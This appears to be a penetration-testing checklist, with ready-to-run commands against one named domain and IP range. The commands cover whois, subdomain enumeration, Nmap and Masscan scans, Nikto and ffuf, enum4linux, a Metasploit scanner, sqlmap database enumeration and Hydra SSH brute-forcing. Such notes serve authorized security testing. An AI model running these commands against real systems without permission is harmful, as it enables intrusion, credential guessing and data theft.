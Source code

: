 
### **1. Passive Reconnaissance**

#### **Step 1: Gather Domain Information**
- **Whois Lookup**:  
  ```bash
  whois qayssarayra.com
  ```
- **DNSDumpster**:  
  Visit: [https://dnsdumpster.com/](https://dnsdumpster.com/)
- **Shodan**:  
  Visit: [https://www.shodan.io/](https://www.shodan.io/)

#### **Step 2: Subdomain Enumeration**
- **Sublist3r**:  
  ```bash
  sublist3r -d qayssarayra.com
  ```
- **Amass**:  
  ```bash
  amass enum -d qayssarayra.com
  ```
- **Crt.sh**:  
  Visit: [https://crt.sh/](https://crt.sh/)

#### **Step 3: Social Media & Web Research**
- **TheHarvester**:  
  ```bash
  theharvester -d qayssarayra.com -b all
  ```

#### **Step 4: Analyze SSL Certificates**
- **SSL Labs' SSL Test**:  
  Visit: [https://www.ssllabs.com/ssltest/](https://www.ssllabs.com/ssltest/)

---

### **2. Active Reconnaissance**

#### **Step 5: Network Scanning**
- **Nmap**:  
  ```bash
  nmap -sS -T1 -Pn --open --min-rate=1000 --max-retries=1 -v --scan-delay 1s --badsum qayssarayra.com
  ```
- **Masscan**:  
  ```bash
  sudo masscan 77.37.125.41/24 --rate=1000 -p1-65535
  ```
- **Netdiscover**:  
  ```bash
  netdiscover -r 77.37.125.41/24
  ```

#### **Step 6: Service Enumeration**
- **Nikto**:  
  ```bash
  nikto -h http://qayssarayra.com
  ```
- **Ffuf**:  
  ```bash
  ffuf -u http://localhost/FUZZ -w /usr/share/wordlists/dirb/common.txt
  ffuf -u http://localhost/FUZZ -w /usr/share/wordlists/dirb/common.txt -recursion
  ffuf -u http://localhost/FUZZ -w /usr/share/wordlists/dirb/common.txt -fc 403,404
  ffuf -u http://localhost/FUZZ -w /usr/share/wordlists/dirb/common.txt -o results.txt
  ```
- **Enum4linux**:  
  ```bash
  sudo enum4linux -a 77.37.125.41 
  ```

#### **Step 7: Vulnerability Scanning**
- **OpenVAS/GVM**:  
  Use OpenVAS GUI or CLI for scanning.
- **Nessus**:  
  Use Nessus GUI for scanning.
- **Metasploit**:  
  ```bash
  msfconsole
  use auxiliary/scanner/portscan/tcp
  set RHOSTS 77.37.125.41
  run
  ```

#### **Step 8: Exploitation Testing**
- **Burp Suite**:  
  Proxy traffic through Burp Suite manually.
- **SQLmap**:  
  ```bash
  sqlmap -u "http://qayssarayra.com/page?id=1" --dbs
  ```
- **Hydra**:  
  ```bash
  hydra -l admin -P /path/to/passwords.txt ssh://77.37.125.41
  ```

 
